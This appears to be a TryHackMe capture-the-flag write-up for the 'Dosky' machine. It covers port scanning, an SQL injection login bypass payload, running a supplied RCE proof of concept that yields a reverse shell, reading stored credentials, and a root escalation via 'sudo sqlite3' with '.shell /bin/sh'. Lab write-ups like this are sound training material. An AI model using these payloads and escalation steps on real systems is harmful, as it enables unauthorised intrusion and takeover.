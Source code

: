 <h1 align="center">Dosky Exploitation</h1> 
<h6 align="center"> Official Writeup for Try Hack Me</h6>

<p>Dosky is a challenge that will test your knowledge of informations security in differents areas such as:</p>
<ui>
	<li>Service Enumeration.</li>
	<li>WebApp Exploitation.</li>
	<li>Vulnerabilities exploitation using exploits.</li>
	<li>Linux Enumeration.</li>
	<li>Privilege Escaletion</li>
</ui>

___
<h3 align="center">Enumeration</h3>
<p>After deploying our virtual machine we have to enumerate services, we do not know what this server is actually running but we can try to figure out it.</p>

<p>First we will start scanning ports with <b>Rustscan</b>, this scanner is fast so we can scan all  ports in a few seconds.</p>

```
rustscan 10.10.159.174 --ulimit 5000 -- -p-

Open 10.10.159.174:22
Open 10.10.159.174:80
Open 10.10.159.174:5000
Open 10.10.159.174:10515

```
<p>There are some services runing, using <b>Nmap</b> now we can receive more information about the ports we know that are oppened</p>

```
PORT         STATE SERVICE VERSION
22/tcp         open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp         open  http    Apache httpd 2.4.29 ((Ubuntu))
5000/tcp     open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
10515/tcp   open  unknown

```
<ur>
	<li>Openssh is a normal service and we would need to find credentials to have access to it, let's take a look on it after.</li>
	<li>The port 80 is running apache2, as well it is a normal service and we can enumerate looking for information.</li>
	<li>Running on port 5000 we have an interesting service, maybe flask webapp, we will have to see this.</li>
	<li>But now we have a service that cannot be detected by nmap, we will have to see it manually.</li>
</ur>

### Apache2
<p>We have an apache server running, however this does not seem to be anything interesting as it is just a default service page showing.</p>
<p>Even viewing the code, nothing catches my attention, just a few modified texts and in different languages.</p>

### Dosky's Web Page
<p>Entering the service that runs on port 5000 we find a website about a software called dosky.</p>
<p>A normal website about the service, and reading a little about it I find out what Dosky is: Dosky is a software that is based on server and client side in two separate programs, so you can manage the services that run on your server remotely and in a secure way..</p>
<p>Okay, now that we see this let’s try to exploit something.</p>

<p>First let’s enumerate the directories of the website. we will use gobuster.</p>

```
/admin (Status: 200)
/console (Status: 200)
/download (Status: 200)
/robots.txt (Status: 200)
```

<p>Gobuste were able to find some interesting directories, one of them refers to a console that runs on Flesk applications under development and it is in debug mode, but we would have to have the pin to have access, so we wont lost our time with it.</p>
<p>"/download" can be accessed through the main page, this makes us download a program that is Dosky_Client, can be useful.</p>
<p>The webpage shows us that there is an Bug Bounty program opened for the public tu thest their aplications. After entering the Bug Bounty page it seens to be under contruction, but has a email for contact.</p>

`Email: hanny@dosky.com` It can be usefull.

<h3 align="center">WebApp Exploitation</h3>

<p>Taking a little deeper look at <b>/admin</b> takes us to the administration page that is protected by a login and password form.</p>

<p>This form allows only email to be inserted, which makes it difficult to explore, however we can bypass using a reverse proxy like <b>Burp Suite</b>.</p>

<p>This way I was able to do some tests and finally find out that the application is vulnerable to <b>sql injection</b>, so even without knowing the password we can use that email that you had found on the Bug Bounty page to bypass the authentication.</p>

### SQL Injection Time
<p>With the Burp Suite connected and intercepting all the traffic we should try to log in to the form with the following credentials:</p>

```
Email: hanny@dosky.com
pasword: abc123
```

<p>And the post data would looks like this:</p>

```
email=hanny%40dosky.com&password=abc123
```

<p>So on the email we will inject the payload</p>

`'-- -` and the post request will look like this: `email=hanny%40dosky.com'-- -&password=abc123`
so we had a success.

### Exploiting Dosky
<p>On the dashboard we have an email from someone who participated in the program and found a failure in Dosky Server, we can read the report, which explains about remote code execution found in the software and we have access to the exploit.</p>

<p>We have to download the exploit then run it using python3.</p>

`Usage: exploit.py <Remote Host> <Port>`
<p>It's very simple and first we will just have to set the server's ip and port. The service is then that stranger running on port 10515.</p>

```
Dosky 1.0 RCE PoC
[OK] - Successful connection.
[OK] - Vulnerable!
[*] - Bash payload.
Local Host> <your ip>
Local Port> 4444
[*] - Generating payload.
[*] - Injecting payload:

Listening on 0.0.0.0 4444
0.0.0.0 Connection received on 40744
bash: cannot set terminal process group (900): Inappropriate ioctl for device
bash: no job control in this shell
dosky@dosky:~$ 

```

<p>And we got a reverse shell!!!</p>

<h3 align="center">Linux Enumeration</h3>

<p>We have access to the machine, but we realize that there is a lot of content to be examined, so let's get straight to the point.<br><br> At the root of the system we have a file called <b>.important.txt</b>, this file has important information, dosky's password.</p>

```
dosky@dosky:/$ cat .important.txt

I changed the user Dosky password to: ************
it's easier and everyone will be allowed to handle that user.

```

<p>The shell we have is not so good so we can connect via ssh with the password we have now.</p>
<p>In the dosky user home folder we have the dosky service, which was exploited to give us access to the machine, in this file pythos has the access passwords for the server as well as the username. Looking better you can find the flag.</p>

```

                if user == "admin":
                    if passwd == "35e50bad096e65cebe00974daed9beec":
                        print("logged sussfully")
                        logs = """

```

<p>To obtain the first flag, we must connect to the server with Dosky_Client and login with the credentials.<br><br>The web application is found in a folder on the dosky home</p>

<p>it has a database of type sqlite3 that has Hanny's credentials to enter her dashboad, a senha para acessar o usuário de hanny é a mesma.</p>

```
dosky@dosky:~/Web_Site_v2$ cat auth.db

###[#tableauthauthCREATE TABLE "auth" (
        "user"  TEXT NOT NULL,
        "passwd"        TEXT NOT NULL
+hanny@dosky.com********

dosky@dosky:~/Web_Site_v2$ su hanny
password:
hanny@dosky:/home/dosky/Web_Site_v2$ 
```

<p>After switching users we can access hanny's home and find the second flag.</p>

```
hanny@dosky:~$ ls
SSH-Honeypot  user.txt
hanny@dosky:~$
```

<h3 align="center">Privilege Escaletion</h3>

<p>To elevate our privilege on the machine there are some things we can do such as using LinPeas or tools like this. </p>
<p>But by running the command <b>sudo -l</b> we realize that we have the possibility to run the <b>SQLIte3</b> as a super user.</p>
<p>Ok! so running the command we can elevate our privilege.</p>

```
sudo sqlite3 /dev/null '.shell /bin/sh'
```

<p>Now we can go to the root's home and get the flag.</p>

<h5 align="center">The End</h5>

